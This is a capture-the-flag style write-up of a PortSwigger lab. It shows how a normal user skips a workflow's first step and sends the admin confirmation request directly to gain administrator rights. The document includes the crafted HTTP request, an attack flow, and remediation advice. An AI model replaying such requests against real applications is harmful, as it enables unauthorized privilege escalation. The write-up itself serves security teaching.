


# Lab 12 — Multi-Step Process with No Access Control on One Step

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Access Control
- **Lab:** Multi-step process with no access control on one step
- **Difficulty:** Practitioner
- **Vulnerability:** Broken Access Control / Missing Authorization on Multi-Step Process
- **Privilege Escalation:** Vertical (Normal User to Administrator)
- **Status:** Solved

---

## Objective

Log in as the normal user `wiener` and exploit the flawed multi-step role-change process to promote the account to administrator.

The lab provides the following credentials:

```text
Administrator:
Username: administrator
Password: admin

Normal user:
Username: wiener
Password: peter
```

---

## Reconnaissance

I first authenticated as the administrator (`administrator:admin`) to map and analyze the multi-step user promotion workflow.

The administrative interface at `/admin` implemented a two-step confirmation process for changing user roles.

### Step 1 — Initial Role Change Request

Initiating a role change for the user `carlos` generated the following request:

```http
POST /admin-roles HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[ADMIN-SESSION-COOKIE]
Content-Type: application/x-www-form-urlencoded

username=carlos&action=upgrade
```

The application did not immediately execute the role modification. Instead, it returned a confirmation page (`HTTP/2 200 OK`) prompting the administrator with options:

```text
"Are you sure you want to upgrade carlos?"
[ Yes ]  [ No ]  [ Take me back ]
```

### Step 2 — Confirmation Execution Request

Upon clicking **Yes**, the browser submitted the confirmation request:

```http
POST /admin-roles HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[ADMIN-SESSION-COOKIE]
Content-Type: application/x-www-form-urlencoded

action=upgrade&confirmed=true&username=carlos
```

The server processed the promotion and redirected back to the administrator panel:

```http
HTTP/2 302 Found
Location: /admin
```

The crucial difference between the two requests was the addition of the parameter `confirmed=true`. Step 2 was the actual execution endpoint that performed the state-changing role upgrade in the database.


---

## Identifying the Broken Access Control

Multi-step workflows often fall victim to flawed architectural assumptions where developers enforce access control on the initial entry point (Step 1) while assuming subsequent execution steps (Step 2) are unreachable without having passed Step 1.

To test whether Step 2 independently enforced authorization:
1. I logged out of the administrator account.
2. I authenticated as the low-privileged user `wiener:peter`.
3. Using Burp Repeater, I constructed the Step 2 confirmation request using Wiener's active session cookie, setting `username=wiener`:

```http
POST /admin-roles HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[WIENER-SESSION-COOKIE]
Content-Type: application/x-www-form-urlencoded

action=upgrade&confirmed=true&username=wiener
```



---

## Privilege Escalation & Verification

The server accepted the request directly, returned `HTTP/2 302 Found` (redirecting to `/admin`), and promoted `wiener` to administrator without requiring the initial Step 1 request.

I then accessed `/admin` using Wiener's session and confirmed full administrator privileges and role management capabilities. The lab registered as solved.



---

## Vulnerability Analysis

The vulnerability is a **Missing Authorization Check on a Multi-Step Workflow Step**, leading to direct vertical privilege escalation.

### Root Causes
1. **Flawed Security Boundary Assumption:** The developer placed authorization controls on the first step of the workflow (the UI prompt / Step 1 request) but failed to re-verify administrator privileges on the final execution endpoint (Step 2).
2. **Reliance on Client-Controlled State:** The application relied on the client-supplied parameter `confirmed=true` as evidence that the user was authorized and had legitimately transitioned through the workflow steps.
3. **Stateless Workflow Without Server-Side Verification:** The back-end did not track workflow state or associate the confirmation step with an authorized, pre-validated session state.

```text
[ Flawed Multi-Step Model ]
Step 1: POST /admin-roles (username=wiener&action=upgrade) ──> [ Check Admin Role ] ──> Denied for Non-Admins
                                                                       │
Attacker skips Step 1 ─────────────────────────────────────────────────┘
         ↓
Step 2: POST /admin-roles (action=upgrade&confirmed=true&username=wiener) ──> [ NO Role Check! ] ──> Action Executed!
```

---

## Attack Flow

```text
[ Attacker / Normal User ]
          │
          │ 1. Analyze Admin Workflow:
          │    Step 1: POST /admin-roles (action=upgrade&username=carlos) ──> Confirmation UI
          │    Step 2: POST /admin-roles (action=upgrade&confirmed=true&username=carlos) ──> 302 Redirect
          │
          │ 2. Authenticate as Low-Privilege User (wiener)
          │
          │ 3. Bypass Step 1 entirely; submit crafted Step 2 request directly:
          │    POST /admin-roles HTTP/2
          │    Cookie: session=[WIENER-SESSION]
          │    action=upgrade&confirmed=true&username=wiener
          │         │
          │         ▼
          │    [ Back-End Application ]
          │    - Checks for "confirmed=true" parameter (Present)
          │    - Skips role validation check
          │    - Updates database: user 'wiener' -> ROLE_ADMIN
          │         │
          │         ▼
          │    302 Redirect to /admin
          │
          │ 4. Access /admin as Wiener (Administrator Privileges Confirmed)
          ▼
    [ Lab Solved ]
```

---

## Impact

An unauthenticated or low-privileged user can directly invoke administrative execution endpoints to elevate their privileges to administrator (**Vertical Privilege Escalation**):

```text
Low-Privileged User (wiener) ──[ Direct Step 2 POST ]──> Full Administrator
```

In production applications, unauthenticated or unauthorized multi-step execution endpoints can lead to:
- Unauthorized privilege escalation and administrative account creation.
- Bypassing multi-factor authentication (MFA) or confirmation stages in password reset and profile update flows.
- Unauthorized execution of sensitive financial or business logic operations (funds transfer confirmation, order approval, subscription upgrades).

---

## Remediation

### 1. Enforce Authorization on Every Endpoint and Workflow Step
Every request handler in a multi-step process must independently verify that the authenticated user possesses the necessary privileges to execute the action:

```text
Step 2 Execution Request
          ↓
Verify Authenticated Session
          ↓
Verify User Has Administrator Role
          ├── Authorized   ──> Execute Role Promotion
          └── Unauthorized ──> Return 403 Forbidden
```

### 2. Implement Server-Side Workflow State Validation
Track workflow progression on the server side using session state or signed, short-lived tokens rather than relying on client-supplied parameters like `confirmed=true`:

```text
Step 1: Authenticated admin initiates action ──> Server stores pending token in session
Step 2: Admin confirms action with token     ──> Server validates token & user permission ──> Executes & invalidates token
```

### 3. Reject Out-of-Order or Unverified Step Requests
Ensure that state-changing execution endpoints cannot be invoked unless the server verifies that prior mandatory steps and validations were completed by the same authorized user.

---

## Key Takeaways

1. **Every Workflow Step is a Public Attack Surface:** Never assume an endpoint is safe just because standard users cannot reach the link in the UI.
2. **Never Trust Client-Side State Flags:** Parameters like `confirmed=true`, `step=2`, or `verified=1` can be trivially supplied by attackers in Burp Suite.
3. **Test Sub-Steps in Isolation:** When reviewing multi-step processes during security assessments, always test subsequent steps directly with lower-privileged or unauthenticated sessions.
4. **State Transitions Must Be Server-Enforced:** Ensure state machines and business logic steps are tracked and validated on the server.
5. **Enforce Defense in Depth:** Implement role checks at both the routing layer and the controller/service method executing the business logic.
